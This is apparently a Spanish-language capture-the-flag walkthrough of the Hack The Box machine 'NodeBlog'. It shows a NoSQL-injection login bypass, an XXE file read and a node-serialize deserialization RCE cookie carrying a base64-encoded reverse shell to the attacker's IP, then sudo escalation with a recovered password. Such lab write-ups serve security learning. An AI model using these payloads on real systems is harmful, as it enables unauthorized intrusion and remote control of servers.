# NodeBlog



- Launchpad -> Focal

- 5000: node.js





- Encontramos un login
Si probamos con admin:admin vemos que hay posibilidad tanto de enumeración de usuarios como de bruteforcear la passwd porque cambia el mensaje de respuesta según las credenciales



Intentamos
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.96.160 -s 5000 http-post-form "/login:user=admin&password=^PASS^:F=Invalid" -V
```

Pero no encuentra nada

- Gobuster -> nada a priori en /

-
```bash
whatweb http://10.129.96.160:5000
```

http://10.129.96.160:5000 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.129.96.160], Script[JavaScript], Title[Blog], X-Powered-By[Express], X-UA-Compatible[IE=edge]

- Nada por UDP

- Buscamos vulnerabilidades de Express que es el backend usado por node.js según wapalizer



Probamos con varios pero no encontramos nada a priori

- Como sabemos que admin es un usuario válido vamos a intentar algúnas inyecciones sql
```bash
admin' or 1=1-- -
admin' or sleep(5)-- -
```

- Nada, no bypaseamos el login ni tarda 5s en cargar la pag por lo que no parece inyectable a priori

- buscamos en *payloadallthethings* y filtramos por sql para indagar mas
Vamos a probar **NoSQLInyection**
Abrimos burp para checkear si varía el *content-lenght* de 1040, eso significará que la respuesta ha cambiado y que no es el mensaje de usuario/contraseña inválidas que suele mostrar
- Probamos a cambiar el cuerpo de la petición post con las NoSQLi
```bash
user=admin&password[$ne]=caca
```

La query es que la *password* sea distinta ([$ne]) a "caca", por lo cual es un posible bypass
- No lo pilla
- Probamos con la misma query pero en json
1. Cambiamos el Content-Type a *application/json*
2. Probamos si la data se puede tramitar por JSON
Incluimos en el cuerpo
```bash
{"user": "admin", "password": "caca"}
```

Vemos que sí que la acepta porque nos devuelve la misma respuesta



3. Tramitaremos la query de bypaseo por json que viene en el recurso de *payloadallthethings*



```json
{"user": "admin", "password":{"$ne": null}}
```



Conseguimos bypassear y obtenemos el login


- Nos capturamos la petición con burp desde el navegador, la modificamos, y le damos a forward para tramitar la petición maliciosa, y tendremos la sesión en el navegador, con la cookie
*%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D*
URL Decode:
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}

- Vemos que hay un apartado de UPLOAD para subir archivo
Intentamos subir un archivo pero nos dice que deberá ser uno de tipo **Markdown**



Si hacemos ctrl+u para ver el formato vemos la estructura
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>



- Crearemos un archivo markdown con esa estructura




Y ahora si nos deja



- Crearemos uno malicioso ahora
Markdown interpreta js luego intentaremos ver si nos ejecuta el código
```javascript
<script>alert("pwned")</script>
```

No ejecuta nada

- Vemos que puede ser un XXE
En payloadallthethings buscamos por *XXE Injection* y miramos *Clasic XXE* por ejemplo



\<foo> es una etiqueta asique no la copiamos,
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

- Lo insertamos en el archivo
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
<title>Example Post</title>
<description>Example Description</description>
<markdown>&xxe;</markdown>
</post>
```



Explicación



- Al subir este archivo



Nos reporta el /etc/passwd
Vemos que hay un usuario *admin*

- Buscaremos otro archivo más sensible como por ejemplo */proc/net/tcp* que muestra puertos abiertos internamente



- Nos creamos un archivo para manipularlo
Queremos la segunda columna con la parte del númer0 a la derecha de ":", esto será el número del puerto en hexadecimal, además de quitar los repetidos con sort
```bash
cat data | awk '{print $2}' | grep -v local | awk '{print $2}' FS=":" | sort -u
```



Ahora iteraremos este comando para decodificar en hexadecimal el número de los puertos
```bash
$((16#$port))
```

-> decodificar de exadecimal
```bash
for port in $(cat data | awk '{print $2}' | \grep -v local | awk '{print $2}' FS=":" | sort -u); do echo "[+] Puerto $port -> $((16#$port))"; done
```



- Intentaremos listar algún archivo que tenga que ver con el node.js que corre en el puerto 5000. **Sabemos que hay un *server.js* que corre en el sistema**, porque es como suele llamarse el servidor de javascript que tiene node.js
Antes intentando editar un artículo con algún código malicioso como poner en el apartado de Markdown un
```bash
<script>alert</script>
```

o algo del estilo, nos devolvía un error el servidor en el cual reportaba algunas rutas que pueden ser interesantes de consultar



Vemos que la raiz pueda ser el */opt/blog*, intentaremos cargar ahí el *server.js*



Efectivamente lo carga y además vemos información sensible

- Según leemos el código, vemos que la cookie "c" viaja serializada al servidor, donde se deserializa y es interpretada



Podríamos crear una cookie serializada desde el cliente (la cookie se puede editar desde el storage del f12) que sea maliciosa, y al ser desserializada realizar la acción que queramos en el navegador

- Buscaremos en google "nodejs deserialization attack" y encontrasmos este post donde se habla de un IIFE
- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/



- Nos instalaremos node-serialize para probar esto en nuestro sistema
Primero deberemos instalar el *npm* que es el instalador de paquetes de **Node.js** desde el repositorio de NPM (Node Package Manager)
```bash
sudo apt install nodejs npm
npm install node-serialize
```



- Nos creamos los scripts *serialize.js* y *unserialize.js* con el código del artículo



- Si serializamos la data con
```bash
node serialize.js
```

```bash
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n}"}
```



- Sin embargo, si le metemos los () del IIFE, nos ejecutará el comando antes de serializar la data, en lugar de declarar la función, la ejecuta automáticamente, y aplica el RCE, en este caso el *ls /*. Esto es lo que pasará en el lado del servidor cuando serialicemos la cookie maliciosa.
```bash
node serialize.js
```



- Copiamos la data que va a ser serializada en el decoder de burpsuite por ejemplo.
Nos enviaremos un ping
```bash
sudo tcpdump -i tun0 icmp -n
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.10.14.96', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```



La URL encodeamos, y el resultado es lo que deberemos meter en la cookie de sesión que irá serializada. Recargamos la pág



Nos llega el ping por lo que confirmamos el RCE

- Nos enviaremos una bash interactiva, para no enviar el onliner típico por la cookie, vamos a base64encodear un archivo que tenga este onliner y pipearlo con bash
Usaremos solo el
```bash
bash -i
```

ya que hay un /bin/bash implícito ejecutando ya el comando por el () del IIFE



```bash
cat bash | base64 -w 0; echo
```





- Lo pasamos en la cookie teniendo en cuenta que habra que base64decodearlo y aplicarle un pipe bash
```bash
echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC45Ni80NDMgMD4mMQo= | base64 -d | bash
```

Nos queda todo
```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC45Ni80NDMgMD4mMQo= | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```



El churro URlencodeado no lo pego aquí



admin

## Escalada

Vemos tenemos permisos de lectura sobre /home/admin pero no podemos entrar, solo listar su contenido con ls, además no podemos leer la flag con cat



Le hacemos chmod porque somos el usuario admin
```bash
chmod +x admin
```

En */opt/blog/login.js* encontramos posibles credenciales para admin
Este archivo es de mongodb, que es la db que nos ha permitido aplicar la NoSQLi
Puerto 27017



admin:IppsecSaysPleaseSubscribe

Hacemos
```bash
sudo su
```

root

Podríamos haber accedido desde mongo
```bash
mongo
```

```
help
show dbs
```

```
use admin
```

-> nada
```
use blog
show collections
db.users.find()
```

Vemos la password
root
